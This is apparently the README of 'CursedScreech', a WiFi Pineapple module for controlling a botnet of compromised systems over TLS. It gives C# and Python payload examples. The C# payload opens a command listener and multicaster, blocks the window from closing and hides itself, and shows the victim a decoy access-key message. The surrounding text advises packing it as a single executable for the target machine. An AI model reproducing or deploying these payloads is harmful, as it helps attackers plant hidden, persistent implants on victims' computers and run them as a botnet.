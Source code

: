 # CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech and PortalAuth.


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using PineappleModules;

namespace Payload
{
	public partial class Form1 : Form {
    
		PA_Authorization pauth = new PA_Authorization();
	
		public Form1() {
			InitializeComponent();
	
			CursedScreech cs = new CursedScreech();
			cs.startMulticaster("231.253.78.29", 19578);
			cs.setRemoteCertificateSerial("EF-BE-AD-DE");
			cs.setRemoteCertificateHash("1234567890ABCDEF");
			cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");
		}
		private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
			e.Cancel = true;
			this.Hide();
		}
		private void accessKeyButton_Click(object sender, EventArgs e) {
				
			// Request an access key from the Pineapple
			string key = pauth.getAccessKey();
	
			// Check if a key was returned
			string msg;
			if (key.Length > 0) {
				msg = "Your access key is unique to you so DO NOT give it away!\n\nAccess Key: " + key;
			}
			else {
				msg = "Failed to retrieve an access key from the server.  Please try again later.";
			}
			
			// Display message to the user
			MessageBox.Show(msg);
		}
	}
}

```


### Python API Example
```
from CursedScreech import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
